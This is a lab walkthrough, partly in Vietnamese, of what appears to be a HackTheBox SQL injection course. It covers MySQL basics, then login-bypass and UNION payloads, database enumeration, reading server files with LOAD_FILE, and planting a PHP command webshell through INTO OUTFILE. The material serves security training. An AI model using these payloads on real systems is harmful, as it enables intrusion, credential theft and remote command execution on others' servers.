# Intro to MySQL

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): Click here to spawn the target system!  

Cheat Sheet

 Authenticate to with user "root" and password "password"

+ 0  Connect to the database using the MySQL client from the command line. Use the 'show databases;' command to list databases in the DBMS. What is the name of the first database?

```zsh
mysql -h 83.136.249.246 -P 36825 -u root -p
```

```sql
show databases;
```

# SQL Statements

#### Questions

##### What is the department number for the 'Development' department?

```sql
mysql -h 83.136.249.246 -P 36825 -u root -p
use employees;
select * from departments;
+---------+--------------------+
| dept_no | dept_name          |
+---------+--------------------+
| d009    | Customer Service   |
| d005    | Development        |
| d002    | Finance            |
| d003    | Human Resources    |
| d001    | Marketing          |
| d004    | Production         |
| d006    | Quality Management |
| d008    | Research           |
| d007    | Sales              |
+---------+--------------------+
```

# Query Results

#### Questions
What is the last name of the employee whose first name starts with "Bar" AND who was hired on 1990-01-01?

Đầu tiên cần xác định cấu trúc của bảng:

```sql
select * from employees limit 1;
+--------+------------+------------+-----------+--------+------------+
| emp_no | birth_date | first_name | last_name | gender | hire_date  |
+--------+------------+------------+-----------+--------+------------+
|  10001 | 1953-09-02 | Georgi     | Facello   | M      | 1986-06-26 |
+--------+------------+------------+-----------+--------+------------+
```

```sql
select * from employees
    -> where first_name like "Bar%"  
    -> and hire_date="1990-01-01";
+--------+------------+------------+-----------+--------+------------+
| emp_no | birth_date | first_name | last_name | gender | hire_date  |
+--------+------------+------------+-----------+--------+------------+
|  10227 | 1953-10-09 | Barton     | Mitchem   | M      | 1990-01-01 |
+--------+------------+------------+-----------+--------+------------+
```

# SQL Operators

#### Questions

In the 'titles' table, what is the number of records WHERE the employee number is greater than 10000 OR their title does NOT contain 'engineer'?

```sql
select count(*) from titles where emp_no > 10000 or title not like "%engineer";
+----------+
| count(*) |
+----------+
|      654 |
+----------+
```

# Subverting Query Logic

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 94.237.121.185:38281   

Life Left: 90 minute(s)

Cheat Sheet

+ 1  Try to log in as the user 'tom'. What is the flag value shown after you successfully log in?


```sql
admin' or '1'='1
```


# Using Comments
#### Questions
+ 1  Login as the user with the id 5 to get the flag.

```sql
whatthefuck' or id=5)-- 
```


# Union Clause
#### Questions
Connect to the above MySQL server with the 'mysql' tool, and find the number of records returned when doing a 'Union' of all records in the 'employees' table and all records in the 'departments' table.

```sql
select count(*) from (select dept_no, dept_name, 3, 4, 5, 6 from departments union select * from employees) as total;
+----------+
| count(*) |
+----------+
|      663 |
+----------+
1 row in set (0.22 sec)

```

# Union Injection
#### Questions
 Use a Union injection to get the result of 'user()

Kiểm tra số lượng cột của bảng:

```sql
' order by 4-- -
```

hoặc
```sql
whathefuck' UNION select 1,2,3,4-- -
```

Tiến hành inject:

```sql
whathefuck' UNION select 1,user(),@@version,4-- -
```


# Database Enumeration

#### Questions
+ 1  What is the password hash for 'newuser' stored in the 'users' table in the 'ilfreight' database?

Đầu tiên chúng ta sẽ xem bảng này có mấy cột:

```sql
' order by 5-- -
```

Như vậy bảng này có khoảng 4 cột. Chúng ta sẽ check danh sách database:

```sql
whatthefuckk' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```



Kiểm tra tiếp xem chúng ta đang ở db nào?

```sql
whatthefuckk' UNION select 1,database(),2,3-- -
```



Quá tiện, chúng ta có thể truy vấn trực tiếp luôn khỏi mất công đụng đến schema.

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```



DB này có 3 bảng là products, users và ports.

Chúng ta sẽ tìm kiếm thông tin của bảng users nơi có khả năng cao là thứ ta cần tìm: thông tin của người dùng `newuser`.

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```



Như vậy bảng users có 3 cột là id, username và password.

Chúng ta sẽ truy vấn tất cả dữ liệu của bảng users

```sql
cn' UNION select 1, username, password, id from users-- -
```

Hoặc nếu đang không có mặt ở cơ sở dữ liệu hiện tại, chúng ta cần ghi đầy đủ:

```sql
cn' UNION select 1, username, password, id from ilfreight.users-- -
```



# Reading Files

#### Questions
+ 1  We see in the above PHP code that '$conn' is not defined, so it must be imported using the PHP include command. Check the imported page to obtain the database password.

Kiểm tra người dùng hiện tại:

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```



Liệu người dùng có đặc quyền hay không?

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```



`Y` nghĩa là có...
Liệt kê tất cả quyền hạn:

```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```



Chúng ta sẽ đọc mã nguồn của trang web:

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```





File config.php này có vẻ rất thú vị, hãy thử đọc nó



# Writing Files
#### Questions
+ 1  Find the flag by using a webshell.

Kiểm tra quyền ghi file:

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```



Value để trống nghĩa là ghi tùy thích. Chúng ta sẽ ghi file webshell, trước hết hãy kiểm tra root directory của web đã, có vẻ như nó dùng apache2.

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/apache2/apache2.conf"), 3, 4-- -
```

Check cái list này cho đến khi nó có gì đó:
```
var/www/html/
var/www/
var/www/sites/
var/www/public/
var/www/public_html/
var/www/html/default/
srv/www/
srv/www/html/
srv/www/sites/
home/www/
home/httpd/
home/$USER/public_html/
home/$USER/www/
```

Chúng ta có câu trả lời ngay đầu tiên, thư mục gốc là `var/www/html/`

Tiếp theo chúng ta sẽ ghi file rev.php tại thư mục gốc của web:

```sql
cn' union select "",'<?php system($_REQUEST[1]); ?>', "", "" into outfile '/var/www/html/rev.php'-- -
```

Gọi rev.php?1=command và chúng ta lụm flag.



# Skills Assessment - SQL Injection Fundamentals

---

The company `Inlanefreight` has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.


Find the vulnerabilities and submit a final flag using the skills we covered to complete this module. Don't forget to think outside the box!

Đầu tiên thử với payload này và đã thành công:

```sql
admin' or 1=1-- -
```

Còn nếu dùng chuỗi thì sẽ phải như này:

```sql
admin' or '1'='1'-- -
```

Vậy chứng tỏ câu lệnh truy vấn có thể là:

```sql
SELECT username, password WHERE username = 'admin' or '1'='1'-- -' AND password = 'password';
```

Như vậy có ít nhất một vế của toán tử `OR` đúng tất nhiên sẽ đúng.
Vậy tại sao `admin' or '1'='1` sai? Chúng ta hãy phân tích lại truy vấn: SQL sẽ ưu tiên toán tử AND trước sẽ như này:

```sql
SELECT username, password WHERE username = 'admin' OR '1'='1' AND password = 'password';
```

Vế 
```sql
'1'='1' AND password = 'password';
```

sẽ trả về false. Nhưng ở đây tài khoản `admin` không tồn tại nên FALSE OR FALSE = FALSE.

Do đó ta phải loại bỏ truy vấn password bằng comment `-- ` để làm cho ít nhất một vế đúng.

Do đó, payload ngắn nhất có thể là:

```sql
' or 1=1-- -
```



Đặt một `'` vào thanh search, có lỗi xảy ra, chứng tỏ có SQL Injection



Chúng ta sẽ dùng `union` querry để tìm kiếm thông tin.

Check được số cột là 5:

```sql
' UNION select 1,2,3,4,5-- -
```



Check được người  dùng hiện tại root@localhost

```sql
' UNION SELECT 1, user(), 3, 4, 5-- -
```



Có quyền super_dba

```sql
cn' UNION SELECT 1, super_priv, 3, 4, 5 FROM mysql.user WHERE user="root"-- -
```

Chúng ta tìm kiếm thư mục gốc của webserver, sau đó sẽ ghi file cmd shell rồi thực thi mã từ xa.

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/dashboard/dashboard.php"), 3, 4, 5-- -
```



Tạo ghi payload vào file shell.php

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "","" into outfile '/var/www/html/dashboard/shell.php'-- -
```

